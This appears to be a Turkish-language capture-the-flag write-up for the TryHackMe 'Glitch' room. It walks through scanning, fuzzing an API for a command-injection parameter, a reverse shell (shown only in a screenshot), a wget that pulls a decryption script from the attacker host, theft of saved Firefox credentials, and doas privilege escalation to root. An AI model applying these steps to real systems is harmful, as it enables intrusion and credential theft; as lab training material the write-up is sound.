 ```yaml
---
title: GLITCH
date: 2024-03-29 15:00:12 
categories: [TryHackMe]
tags: [Easy]  
image: images/glitch.jpeg
---
```


This is a simple challenge in which you need to exploit a vulnerable web application and root the machine. It is beginner oriented, some basic JavaScript knowledge would be helpful, but not mandatory

---

<a href="https://tryhackme.com/r/room/glitch">GLITCH</a>

---

### What is your access token?

nmap komutu:

````bash
┌──(root㉿kali)-[~]
└─# nmap -T4 -sV 10.10.32.188
````

nmap çıktısı:

````bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-30 17:49 EDT
Nmap scan report for 10.10.32.188 (10.10.32.188)
Host is up (0.12s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
````

80 portunda çalışan websitesini ziyaret edelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/1.png?raw=true)

Web sitesine erişirken pek bir şey olmuyor. Bulduğumuz tek şey bir fotoğraf. Kaynak koduna bakıldığında getAccess adlı bir JavaScript fonksiyonu var fakat çağrılmamış. Fonksiyon, /api/access'e bir GET isteğinde bulunduğunda ve yanıtı konsola kaydediyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/2.png?raw=true)

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/3.png?raw=true)

Token base64 ile kodlanmış.[CyberChef](https://gchq.github.io/CyberChef/) sitesinden kodu decode ediyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/4.png?raw=true)


### What is the content of user.txt?

Bulduğumuz token'ı kullandığımızda sayfaya erişiyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/5.png?raw=true)

Siteyi hangi ruh hastası hazırladıysa kendisini tebrik ediyorum.

Gobuster ile dizin taraması yapıyorum.

````bash
┌──(root㉿kali)-[~]
└─# gobuster dir --wordlist=/usr/share/wordlists/dirb/big.txt --url http://10.10.32.188/api -t 40
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.32.188/api
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/access               (Status: 200) [Size: 36]
/items                (Status: 200) [Size: 169]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
````

/items dizini inceliyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/6.png?raw=true)

İstek GET metodu ile gidiyor POST olarak değiştiriyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/7.png?raw=true)

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/8.png?raw=true)


Eksik bir parametre olmalı.

````bash
┌──(root㉿kali)-[~]
└─# wfuzz -X POST -w /usr/share/wordlists/SecLists/Fuzzing/1-4_all_letters_a-z.txt --hh=45 http://10.10.16.166/api/items?FUZZ=zart
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.16.166/api/items?FUZZ=zart
Total requests: 475254

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                             
=====================================================================

000002370:   500        10 L     64 W       1081 Ch     "cmd"
````

Varsayımım doğruydu, URL bir cmd parametresi alıyor.

`cmd` parametesine reverse shell kodu yazıyorum ve post metoduyla gönderiyorum.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/9.png?raw=true)

Makineye erişim sağladık.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Glitch/images/10.png?raw=true)

````bash
user@ubuntu:/var/web$ cd /home
lcd /home
user@ubuntu:/home$ s
ls
user
v0id
user@ubuntu:/home$ cd user
cd userl
user@ubuntu:~$ s
ls
user.txt
user@ubuntu:~$ cat user.txt
cat user.txt
THM{-----}
user@ubuntu:~$ 
````

### What is the content of root.txt?

user klasöründeki .firefox dosyası dikkatimi çekti. [Firefox_decrypt](https://github.com/unode/firefox_decrypt/blob/main/firefox_decrypt.py) scripti ile dosyayı açtım.

````bash
user@ubuntu:~$ ls -la
ls -la
total 48
drwxr-xr-x   8 user user  4096 Jan 27  2021 .
drwxr-xr-x   4 root root  4096 Jan 15  2021 ..
lrwxrwxrwx   1 root root     9 Jan 21  2021 .bash_history -> /dev/null
-rw-r--r--   1 user user  3771 Apr  4  2018 .bashrc
drwx------   2 user user  4096 Jan  4  2021 .cache
drwxrwxrwx   4 user user  4096 Jan 27  2021 .firefox
drwx------   3 user user  4096 Jan  4  2021 .gnupg
drwxr-xr-x 270 user user 12288 Jan  4  2021 .npm
drwxrwxr-x   5 user user  4096 Apr 30 21:48 .pm2
drwx------   2 user user  4096 Jan 21  2021 .ssh
-rw-rw-r--   1 user user    22 Jan  4  2021 user.txt
user@ubuntu:~$ cd .firefox
cd .firefox
user@ubuntu:~/.firefox$ ls -la
ls -la
total 20
drwxrwxrwx  4 user user 4096 Jan 27  2021 .
drwxr-xr-x  8 user user 4096 Jan 27  2021 ..
drwxrwxrwx 11 user user 4096 Jan 27  2021 b5w4643p.default-release
drwxrwxrwx  3 user user 4096 Jan 27  2021 Crash Reports
-rwxrwxr-x  1 user user  259 Jan 27  2021 profiles.ini
user@ubuntu:~/.firefox$ wget 10.9.1.150:80/firefox_decrypt.py
wget 10.9.1.150:80/firefox_decrypt.py
--2024-04-30 22:39:43--  http://10.9.1.150/firefox_decrypt.py
Connecting to 10.9.1.150:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 39322 (38K) [text/x-python]
Saving to: ‘firefox_decrypt.py’

     0K .......... .......... .......... ........             100%  241K=0.2s

2024-04-30 22:39:43 (241 KB/s) - ‘firefox_decrypt.py’ saved [39322/39322]

user@ubuntu:~/.firefox$ chmod 777 firefox_decrypt.py
chmod 777 firefox_decrypt.py
user@ubuntu:~/.firefox$ python3 firefox_decrypt.py .
Select the Mozilla profile you wish to decrypt
1 -> hknqkrn7.default
2 -> b5w4643p.default-release
2

Website:   https://glitch.thm
Username: 'v0id'
Password: '---'
````

v0id kullanıcına geçebiliriz.

````bash
user@ubuntu:/var/web$ su v0id
su v0id
Password: 

v0id@ubuntu:/var/web$ id
id
uid=1001(v0id) gid=1001(v0id) groups=1001(v0id)
````

v0id kullanıcısının kullanabileceği bir program yok

````bash
v0id@ubuntu:/var/web$ sudo -l
sudo -l
[sudo] password for v0id: 

Sorry, user v0id may not run sudo on ubuntu.
````

Fakat SUID dosyası var.

````bash
v0id@ubuntu:~$ find / -type f -user root -perm -u=s 2>/dev/null
find / -type f -user root -perm -u=s 2>/dev/null
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/doas
````

/usr/local/bin/doas ı kullanabiliriz.

````bash
v0id@ubuntu:~$ doas -u root /bin/bash
doas -u root /bin/bash
Password:

root@ubuntu:/home/v0id# cd /root
cd /root
root@ubuntu:~# cat root.txt
cat root.txt
THM{---}
````

![fsoc](/images/fsoc.gif)








